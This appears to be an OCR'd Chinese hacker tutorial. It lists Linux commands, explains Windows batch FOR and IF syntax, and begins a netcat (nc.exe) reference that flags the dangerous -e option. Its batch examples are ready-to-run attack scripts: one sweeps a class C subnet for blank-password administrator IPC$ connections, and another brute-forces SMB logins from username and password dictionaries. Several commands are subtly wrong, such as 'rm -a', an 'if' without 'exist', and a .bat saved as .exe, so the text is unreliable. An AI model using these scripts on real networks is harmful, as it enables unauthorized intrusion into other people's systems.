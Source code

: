 　　rm 文件名 删除文件，rm -a 目录名删除目录及子目录
　　mkdir 目录名 建立目录
　　rmdir 删除子目录，目录内没有文档。
　　chmod 设定档案或目录的存取权限
　　grep 在档案中查找字符串
　　diff 档案文件比较
　　find 档案搜寻
　　date 现在的日期、时间
　　who 查询目前和你使用同一台机器的人以及Login时间地点
　　w 查询目前上机者的详细资料
　　whoami 查看自己的帐号名称
　　groups 查看某人的Group
　　passwd 更改密码
　　history 查看自己下过的命令
　　ps 显示进程状态
　　kill 停止某进程
　　gcc 黑客通常用它来编译C语言写的文件
　　su 权限转换为指定使用者
　　telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。
　　ftp ftp连接上某服务器（同win2K）
　　批处理命令与变量
　　1：for命令及变量 基本格式
　　FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
　　批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3
　　(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }
　　command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
　　command_parameters：为特定命令指定参数或命令行开关
　　IN (set)：指在(set)中取值；DO command ：指执行command
　　参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
　　用法举例：
　　@echo off
　　echo 用法格式：test.bat *.*.* > test.txt
　　for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
　　存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。
　　/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
　　@echo off
　　echo 用法格式：ok.bat ip
　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
　　存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。
　　七：
　　2：if命令及变量 基本格式
　　IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
　　例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。
　　0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
　　IF [not] 字符串1(两个等号)字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
　　例：“if "%2%"(两个等于)"4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
　　IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
　　例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。
　　IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. 《del test.txt.》 else echo test.txt.missing ”，注意命令中的“.”
　　系统外部命令
　　注：系统外部命令(均需下载相关工具)
　　瑞士军刀：nc.exe
　　参数说明：
　　-h 查看帮助信息
　　-d 后台模式
　　-e prog程序重定向，一但连接就执行[危险]